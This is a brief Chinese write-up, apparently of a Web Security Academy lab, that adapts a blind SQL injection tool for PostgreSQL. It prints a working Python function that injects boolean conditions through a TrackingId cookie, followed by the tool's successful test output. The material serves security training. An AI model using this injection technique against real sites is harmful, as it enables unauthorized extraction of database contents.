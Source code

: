 先通靈猜他是 PostgreSQL，使用 [SQLMe0w](https://github.com/stevenyu113228/SQLME0w) 修改 `boolean_based_blind` 函數為以下

```python
def boolean_based_blind(condition):
    cookies = {
        'TrackingId': f'\' OR {condition} -- -',
        'session': 'XA6OawbATmXMmsZQwTKYv2wuPixeVuuH',
    }

    headers = {
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:96.0) Gecko/20100101 Firefox/96.0',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
        'Accept-Language': 'zh-TW,zh-HK;q=0.8,zh-CN;q=0.7,zh-SG;q=0.5,en-US;q=0.3,en;q=0.2',
        'Accept-Encoding': 'gzip, deflate, br',
        'Connection': 'keep-alive',
        'Upgrade-Insecure-Requests': '1',
        'Sec-Fetch-Dest': 'document',
        'Sec-Fetch-Mode': 'navigate',
        'Sec-Fetch-Site': 'none',
        'Sec-Fetch-User': '?1',
    }

    response = requests.get('https://ac081f6f1f4292d2c0304102009c0069.web-security-academy.net/', headers=headers, cookies=cookies)
    if 'Welcome back!' in response.text : # change me to other keyword or length
        return True
    else:
        return False
```

執行測試可以確認測試成功
```
steven@DESKTOP-08DE77L:~/SQLME0w$ python3 SQLME0w_PostgreSQL.py 

▒█▀▀▀█ ▒█▀▀█ ▒█░░░ ▒█▀▄▀█ ▒█▀▀▀ █▀▀█ █░░░█
░▀▀▀▄▄ ▒█░▒█ ▒█░░░ ▒█▒█▒█ ▒█▀▀▀ █▄▀█ █▄█▄█
▒█▄▄▄█ ░▀▀█▄ ▒█▄▄█ ▒█░░▒█ ▒█▄▄▄ █▄▄█ ░▀░▀░ for PostgreSQL

 
 🐱 (0) System Test
 🐱 (1) Get Current DB
 🐱 (2) Get All DBS
 🐱 (3) Get Schemas
 🐱 (4) Get Tables
 🐱 (5) Get Columns
 🐱 (6) Get Data
Your Option : 0
Intend True:  True
Intend False:  False
✅ Test success 🐱🐱🐱🐱🐱🐱🐱🐱🐱
```
